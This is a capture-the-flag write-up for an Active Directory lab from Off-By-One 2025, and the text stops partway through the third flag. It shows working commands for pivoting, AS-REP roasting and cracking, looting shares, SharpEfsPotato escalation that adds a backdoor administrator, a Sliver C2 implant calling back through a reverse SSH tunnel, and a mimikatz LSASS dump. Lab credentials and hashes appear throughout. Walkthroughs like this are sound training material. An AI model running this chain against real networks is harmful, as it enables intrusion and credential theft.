



# OBO CTF 2025

This is a partial writeup (3/6) of the CTF that we organized during the [Off-By-One Conference 2025](https://offbyone.sg/) in Singapore.

<div class="toc-container">
<button class="toc-toggle" onclick="toggleToc()">Table of Contents</button>
<div class="toc-content" id="tocContent">
<ol>
<li>
<a href="#introduction">Introduction</a>
<ul>
<li><a href="#context-and-scenario">Context and Scenario</a></li>
<li><a href="#required-tools">Required Tools</a></li>
<li><a href="#methodology-notes">Methodology Notes</a></li>
</ul>
</li>

<li>
<a href="#flag-1">Flag 1</a>
<ul>
<li><a href="#ssh-access-and-network-discovery">SSH Access and Network Discovery</a></li>
<li><a href="#domain-controller-identification">Domain Controller Identification</a></li>
<li><a href="#setting-up-socks-proxy">Setting Up SOCKS Proxy</a></li>
<li><a href="#dns-enumeration">DNS Enumeration</a></li>
<li><a href="#smb-enumeration">SMB Enumeration</a></li>
<li><a href="#as-rep-roasting-attack">AS-REP Roasting Attack</a></li>
<li><a href="#smb-enumeration-again">SMB Enumeration (again)</a></li>
<li><a href="#credential-discovery">Credential Discovery</a></li>
<li><a href="#winrm">WinRM Access</a></li>
</ul>
</li>

<li>
<a href="#flag-2">Flag 2</a>
<ul>
<li><a href="#checking-user-privileges">Checking User Privileges</a></li>
<li><a href="#seimpersonateprivilege-exploitation">SeImpersonatePrivilege Exploitation</a></li>
</ul>
</li>

<li>
<a href="#flag-3">Flag 3</a>
<ul>
<li><a href="#double-pivots">Double Pivots</a></li>
<li>
<a href="#command--control-c2">Command & Control Setup</a>
<ul>
<li><a href="#c2-infrastructure-overview">C2 Infrastructure Overview</a></li>
<li><a href="#network-tunneling-configuration">Network Tunneling Configuration</a></li>
<li><a href="#sliver-c2-deployment">Sliver C2 Deployment</a></li>
</ul>
</li>
<li><a href="#credential-harvesting">Credential Harvesting</a></li>
<li><a href="#enumerating-acls">Enumerating ACLs</a></li>
<li><a href="#resource-based-constrained-delegation-attack">Resource-Based Constrained Delegation Attack</a></li>
<li><a href="#accessing-western-outpost-via-pivot">Accessing WESTERN-OUTPOST via Pivot</a></li>
</ul>
</li>
</ol>
</div>
</div>
<br>

## Introduction

### Context and Scenario

The following was provided as the given context for the CTF:





### Required Tools

The following tools will most likely be used during the CTF:
1. [NetExec](https://www.netexec.wiki/)
2. [Impacket](https://github.com/fortra/impacket)
3. [SharpEfsPotato (or any other potato exploit)](https://github.com/bugch3ck/SharpEfsPotato)
4. [Adidnsdump](https://github.com/dirkjanm/adidnsdump)
5. [BloodyAD](https://github.com/CravateRouge/bloodyAD)
6. [PowerView.py](https://github.com/aniqfakhrul/powerview.py)

### BloodHound Usage

This writeup will exclude the use of [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy) to encourage participants to focus on manual enumeration methods and avoid becoming overly dependent on the tool.

> There is _nothing_ wrong with using BloodHound, feel free to use it if you prefer - just know the limitations of the tool and how to use it effectively.

## Flag 1

### SSH Access and Network Discovery

In the given scenario, we are given SSH access to a jump host located at `172.16.10.10` that we can access using:

```
sshpass -p '8iP0TbO5mQmS' ssh svc_jmp@172.16.10.10 
```

Upon enumerating the host, we find a secondary network adapter `ens18` with a local IP address of `10.2.10.9`

```
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:e4:b6:a5 brd ff:ff:ff:ff:ff:ff
    altname enp0s18
    inet 10.2.10.9/24 brd 10.2.10.255 scope global ens18
       valid_lft forever preferred_lft forever
    inet6 fe80::be24:11ff:fee4:b6a5/64 scope link 
       valid_lft forever preferred_lft forever
3: ens19: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:78:3e:5e brd ff:ff:ff:ff:ff:ff
    altname enp0s19
    inet 172.16.10.10/16 brd 172.16.255.255 scope global ens19
       valid_lft forever preferred_lft forever
    inet6 fe80::be24:11ff:fe78:3e5e/64 scope link 
       valid_lft forever preferred_lft forever
```

### Domain Controller Identification

We also know that the domain controller is at `10.2.30.51`, which we can verify by pinging it, as domain controllers typically allow ICMP traffic. We can identify domain controllers by looking for the Kerberos service running on port `88` and the LDAP service on port `389`.

```
svc_jmp@jump:~$ ping -c 1 10.2.30.51
PING 10.2.30.51 (10.2.30.51) 56(84) bytes of data.
64 bytes from 10.2.30.51: icmp_seq=1 ttl=127 time=0.316 ms
```

### Setting Up SOCKS Proxy

To route our tools through the SSH tunnel, we can use the `-D` option with `ssh` to initiate a `SOCKS4` proxy on `127.0.0.1`, along with the `-N` flag to prevent an interactive shell from opening.

A detailed explanation of the pivot setup can be found at [https://playtrv.async.sg/im_new](https://playtrv.async.sg/im_new), a local copy of the page is also available in this repository: [here](https://github.com/ASYNC-Security/RangeVillage-Conference-CTF-Writeups/blob/main/Off-By-One-2025/im_new.md)

```
sshpass -p '8iP0TbO5mQmS' ssh svc_jmp@172.16.10.10 -D 1081 -N 
```

### DNS Enumeration

We can perform reconnaissance on the Domain Controller by routing our traffic through the `SOCKS4` proxy using `proxychains` in combination with netexec

```
proxychains nxc smb 10.2.30.51 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.30.51:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.30.51:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.30.51:445  ...  OK
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
```

Add the following entries to our `/etc/hosts`:

```
10.2.30.51  King-DC.async.empire async.empire
```

We can also try authenticating to the Domain Controller using both SMB and Kerberos protocols.

```
proxychains -q nxc smb King-DC.async.empire -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9'
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 

proxychains -q nxc smb King-DC.async.empire -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9' --kerberos
SMB         King-DC.async.empire 445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
SMB         King-DC.async.empire 445    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
```

Next, we can enumerate DNS records to map out the Active Directory environment.

```
proxychains -q adidnsdump -u 'ASYNC\Towns_Merchant_7' -p 'Hq7L2wPzX9' King-DC.async.empire  
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 10 records, saving to records.csv

cat records.csv 
type,name,value
A,Western-Outpost,10.2.20.21
A,Southern-Tower,10.2.10.11
A,Northern-Armory,10.2.20.31
A,king-dc,10.2.30.51
A,ForestDnsZones,10.2.30.51
A,Forbidden-Library,10.2.30.41
A,DomainDnsZones,10.2.30.51
```

We can populate our `/etc/hosts` file using the DNS records retrieved from `adidnsdump`:

```
10.2.10.11  Southern-Tower.async.empire

10.2.20.21  Western-Outpost.async.empire
10.2.20.31  Northern-Armory.async.empire

10.2.30.51  King-DC.async.empire async.empire
10.2.30.41  Forbidden-Library.async.empire
```

There are three target subnets: `10.2.10.0/24`, `10.2.20.0/24`, and `10.2.30.0/24`. Our jump host resides in the `10.2.10.0/24` range. From there, we can reach the domain controller at `10.2.30.51`, but only have direct access to `southern-tower`.

```
proxychains -q nxc smb targets.txt                                                          
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

### SMB Enumeration

We can also enumerate SMB shares on the accessible hosts.

```
proxychains -q nxc smb targets.txt -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9' --shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule                 Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
```

There is a `Castle_Guards_Schedule` on `SOUTHERN-TOWER` however our current user does not have READ permissions on the share.

To escalate privileges, we can continue enumerating the domain using `PowerView` to identify potential paths to higher-privileged accounts.

Unfortunately, since we do not currently have access to a Windows machine - we cannot use the popular [PowerView PS Module](https://powersploit.readthedocs.io/en/latest/Recon/PowerView/) without connecting a Windows machine to the pivot instead of a Linux host.

We can instead use the Python version of `PowerView`, which has slightly less functionality but is still useful for our purposes. 

```
proxychains -q powerview 'async.empire'/'Towns_Merchant_7':'Hq7L2wPzX9'@King-DC.async.empire

Logging directory is set to /home/kali/.powerview/logs/async-towns_merchant_7-king-dc.async.empire
╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-Domain -Properties distinguishedName
distinguishedName     : DC=async,DC=empire
```

### AS-REP Roasting Attack

Next, we can look for low-hanging fruit like Kerberoastable and AS-REP roastable users.

```
╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-DomainUser -PreAuthNotRequired -Properties sAMAccountName
sAMAccountName     : Towns_Merchant_6
sAMAccountName     : Towns_Merchant_2
sAMAccountName     : Court_Jester_13

╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-DomainUser -SPN  
```

We identify three AS-REP roastable users, allowing us to request their TGTs and attempt to crack them.
```
proxychains -q nxc ldap King-DC.async.empire -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9' --asreproast 'asrep.out' 
LDAP        10.2.30.51      389    KING-DC          [*] Windows Server 2022 Build 20348 (name:KING-DC) (domain:async.empire)
LDAP        10.2.30.51      389    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
LDAP        10.2.30.51      389    KING-DC          [*] Total of records returned 3
```

The TGTs will be saved in `asrep.out` (depends on the argument passed to `--asreproast`), and we can use `John the Ripper` to crack them.

```
john --wordlist=/usr/share/wordlists/rockyou.txt asrep.out
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jessisnaughty4u! ($krb5asrep$23$Court_Jester_13@ASYNC.EMPIRE) 
```

### SMB Enumeration (again)

Using the newly obtained credentials, we can attempt to access the SMB shares once more - and find that we now have READ access to the `Castle_Guards_Schedule` share.

```
proxychains -q nxc smb targets.txt -u 'Court_Jester_13' -p 'jessisnaughty4u!' --shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)                                                                                                                                                             
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Court_Jester_13:jessisnaughty4u! 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Court_Jester_13:jessisnaughty4u! 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule READ            Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

### Credential Discovery

We can connect to the SMB share and loot the `Castle_Guards_Schedule` share.

```
proxychains impacket-smbclient 'async.empire'/'Court_Jester_13':'jessisnaughty4u!'@SOUTHERN-TOWER.async.empire
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.10.11:445  ...  OK
Type help for list of commands
# shares
ADMIN$
C$
Castle_Guards_Schedule
IPC$
# use Castle_Guards_Schedule
# ls
drw-rw-rw-          0  Wed May  7 11:13:08 2025 .
drw-rw-rw-          0  Thu May  8 11:11:42 2025 ..
-rw-rw-rw-      10547  Wed May  7 11:13:05 2025 Castle_Guard_Lookout_Schedule.xlsx
-rw-rw-rw-       9716  Wed May  7 11:13:07 2025 New_Castle_Knights.xlsx
```

We can download this file and open it locally.

```
# get New_Castle_Knights.xlsx

ssconvert New_Castle_Knights.xlsx New_Castle_Knights.csv

cat New_Castle_Knights.csv                      
"🏰 New Castle Knight Credentials - Async Empire",,,,,
Name,Username,Password,"Referred By","Platoon No.","Commanding Officer"
Castle_Guard_29,Castle_Guard_29@async.empire,oZ5pLcXj1R,"Knight-Captain Thorne","Platoon 7","Commander Virel"
Castle_Guard_30,Castle_Guard_30@async.empire,vTxrY1cL0D,"Knight-Captain Elira","Platoon 9","Commander Halberd"
```

With either of the new users, we can re-enumerate the shares, but we find no new results.

```
proxychains -q nxc smb targets.txt -u 'Castle_Guard_29' -p 'oZ5pLcXj1R' --shares                              
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 x64 (name:SOUTHERN-TOWER) (domain:async.empire) (signing:False) (SMBv1:False)                                                                                                                                                             
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [+] async.empire\Castle_Guard_29:oZ5pLcXj1R 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Castle_Guard_29:oZ5pLcXj1R 
SMB         10.2.10.11      445    SOUTHERN-TOWER   [*] Enumerated shares
SMB         10.2.10.11      445    SOUTHERN-TOWER   Share           Permissions     Remark
SMB         10.2.10.11      445    SOUTHERN-TOWER   -----           -----------     ------
SMB         10.2.10.11      445    SOUTHERN-TOWER   ADMIN$                          Remote Admin
SMB         10.2.10.11      445    SOUTHERN-TOWER   C$                              Default share
SMB         10.2.10.11      445    SOUTHERN-TOWER   Castle_Guards_Schedule                 Guard schedule for castle servants
SMB         10.2.10.11      445    SOUTHERN-TOWER   IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          [*] Enumerated shares
SMB         10.2.30.51      445    KING-DC          Share           Permissions     Remark
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

### WinRM

Upon enumerating other remote protocols, we find that `Castle_Guard_29` has WinRM access to `SOUTHERN-TOWER`.

```
proxychains -q nxc winrm targets.txt -u 'Castle_Guard_29' -p 'oZ5pLcXj1R'       
WINRM       10.2.30.51      5985   KING-DC          [*] Windows Server 2022 Build 20348 (name:KING-DC) (domain:async.empire) 
WINRM       10.2.10.11      5985   SOUTHERN-TOWER   [*] Windows Server 2022 Build 20348 (name:SOUTHERN-TOWER) (domain:async.empire) 
WINRM       10.2.30.51      5985   KING-DC          [-] async.empire\Castle_Guard_29:oZ5pLcXj1R
WINRM       10.2.10.11      5985   SOUTHERN-TOWER   [+] async.empire\Castle_Guard_29:oZ5pLcXj1R (Pwn3d!)
Running nxc against 5 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

We can connect using `evil-winrm`, and also get the first flag!

```
proxychains -q evil-winrm -i Southern-Tower.async.empire -u 'Castle_Guard_29' -p 'oZ5pLcXj1R' 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> hostname
Southern-Tower
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> whoami
async\castle_guard_29
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> cat C:\Users\FLAG1\FLAG1.txt
3716d60f85ad825b0bf1b3877d7ff42e
```

## Flag 2

### Checking User Privileges

We can check the user's privileges on the machine by running `whoami /priv`.

```
*Evil-WinRM* PS C:\Users\Castle_Guard_29\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

### SeImpersonatePrivilege Exploitation

We discover that we have the `SeImpersonatePrivilege` on this machine, which enables us to impersonate a `SYSTEM` token using any of the Potato exploits. We'll use `SharpEfsPotato.exe` to create a backdoored local admin.

```
*Evil-WinRM* PS C:\windows\tasks> .\SharpEfsPotato.exe -p C:\Windows\System32\cmd.exe -a "/c net user gatari P@ssw0rd /add && net localgroup Administrators gatar
i /add"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/9685d0e2-97c9-472b-aebb-1292f80510a5/\9685d0e2-97c9-472b-aebb-1292f80510a5\9685d0e2-97c9-472b-aebb-1292f80510a5
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

*Evil-WinRM* PS C:\windows\tasks> net user gatari
User name                    gatari
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/9/2025 4:15:52 PM
Password expires             6/20/2025 4:15:52 PM
Password changeable          5/9/2025 4:15:52 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

We can now access the machine using the newly created Administrator account and retrieve the second flag!

```
proxychains -q evil-winrm -i Southern-Tower.async.empire -u 'gatari' -p 'P@ssw0rd'           
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\gatari\Documents> cat C:\Users\Administrator\desktop\FLAG2.txt
93e8cb96c86dc1d017e6cc07a0ba26af

```

## Flag 3

### Double Pivots

From this machine, you'll find that you now have access to additional machines, including `Western-Outpost`.

```
*Evil-WinRM* PS C:\Users\gatari\Documents> ping Western-Outpost.async.empire -n 1

Pinging Western-Outpost.async.empire [10.2.20.21] with 32 bytes of data:
Reply from 10.2.20.21: bytes=32 time<1ms TTL=127

Ping statistics for 10.2.20.21:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

### Command & Control (C2)

By this point, you'll notice the network is heavily segmented with several subnets, which requires extensive pivoting. To simplify this, I'll be using a C2 framework for pivoting, as I prefer not to rely on tools like Chisel.

In my opinion, the most stable and reliable open-source C2 frameworks are [meterpreter](https://github.com/rapid7/metasploit-framework) and [sliver](https://github.com/BishopFox/sliver). For this writeup, I'll be using `Sliver`, as there is already plenty of documentation for `Meterpreter`, and `Sliver` is generally less commonly used.

#### C2 Infrastructure Overview

The internal machines are airgapped and do not have direct internet access, meaning they cannot connect directly to your machine. However, they can connect to the jump host. You may remember the following network interface on the jump host that is exposed to the internal subnet:

```
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:e4:b6:a5 brd ff:ff:ff:ff:ff:ff
    altname enp0s18
    inet 10.2.10.9/24 brd 10.2.10.255 scope global ens18
       valid_lft forever preferred_lft forever
    inet6 fe80::be24:11ff:fee4:b6a5/64 scope link 
```

We can confirm that `Southern-Tower` can ping the jump host using its internal IP address:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> ping 10.2.10.9 -n 1

Pinging 10.2.10.9 with 32 bytes of data:
Reply from 10.2.10.9: bytes=32 time<1ms TTL=64
```

#### Network Tunneling Configuration

In order to facilitate a connection from the `Southern-Tower` (or any other internal machine) to our C2 server, we need to tunnel traffic out through the jump host. For those familiar with red team infrastructure, this is very similar to a C2 redirector.


In the context of this environment, the setup looks something like this:



The reverse port forward (`FwdRule1`) can be staged using `ssh` with the following syntax:

```
sshpass -p '8iP0TbO5mQmS' ssh svc_jmp@172.16.10.10 -R 41337:0.0.0.0:6969 -N
```

This will map `jump:41337 <-> attacker:6969`, we can also verify this by curling the `jump` host on `Southern-Tower`:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> curl 10.2.10.9:41337

┌──(kali㉿kali)-[~/ctf]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45878
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.20348.558
Host: 10.2.10.9:41337
Connection: Keep-Alive
```

#### Sliver C2 Deployment

Next, we can set up a listener on the jump host using `mtls` on `TCP/6969` (on the attacker machine):

```
sliver > mtls --lport 6969

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

And, generate the payload that will call back to the jump host on `TCP/41337` (remember `FwdRule1`):

```
sliver > generate --mtls 10.2.10.9:41337 -l -G --name initial

[*] Generating new windows/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 8s
[*] Implant saved to /home/kali/ctf/initial.exe
```

Lastly, upload and run the payload on `Southern-Tower`:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> upload initial.exe
                                        
Info: Uploading /home/kali/ctf/initial.exe to C:\Users\gatari\Documents\initial.exe
                                        
Data: 13330432 bytes of 13330432 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\gatari\Documents> .\initial.exe
```

And, the session is captured on the teamserver.

```
[*] Session 2b53ae3b initial - 127.0.0.1:33024 (Southern-Tower) - windows/amd64 - Fri, 09 May 2025 04:40:44 EDT

sliver > sessions -i 2b

[*] Active session initial (2b53ae3b)

sliver (initial) > info

        Session ID: 2b53ae3b-2f5a-4f87-84da-b6574ba8d097
              Name: initial
          Hostname: Southern-Tower
              UUID: 482c6d27-478a-4eda-985a-49b9abd79fe4
          Username: SOUTHERN-TOWER\gatari
               UID: S-1-5-21-3367427693-1023454350-3607259003-1004
               GID: S-1-5-21-3367427693-1023454350-3607259003-513
               PID: 3296
                OS: windows
           Version: Server 2016 build 20348 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: mtls://10.2.10.9:41337
    Remote Address: 127.0.0.1:33024
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Fri May  9 04:40:44 EDT 2025 (47s ago)
      Last Checkin: Fri May  9 04:40:44 EDT 2025 (47s ago)
```

### Credential Harvesting

After obtaining the session, we can perform an LSASS dump with `mimikatz`. We'll use the `sideload` command for this.

```
sliver (initial) > sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe '"sekurlsa::logonpasswords" "exit"'

[*] Output:

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/


Authentication Id : 0 ; 776299 (00000000:000bd86b)
Session           : Batch from 0
User Name         : Castle_Knight_21
Domain            : async
Logon Server      : KING-DC
Logon Time        : 5/7/2025 11:13:18 PM
SID               : S-1-5-21-3324594629-4204122608-2512478463-1113
        msv :
         [00000003] Primary
         * Username : Castle_Knight_21
         * Domain   : async
         * NTLM     : 8d987bd5a242dcb12bf5a18a8cb68554
         * SHA1     : 63a065e16179ad897d776e5f99a095b5b18656f4
         * DPAPI    : b8fb733f8d376f1bbbae391e5eb4a03d
        tspkg :
        wdigest :
         * Username : Castle_Knight_21
         * Domain   : async
         * Password : (null)
        kerberos :
         * Username : Castle_Knight_21
         * Domain   : ASYNC.EMPIRE
         * Password : (null)
        ssp :
        credman :
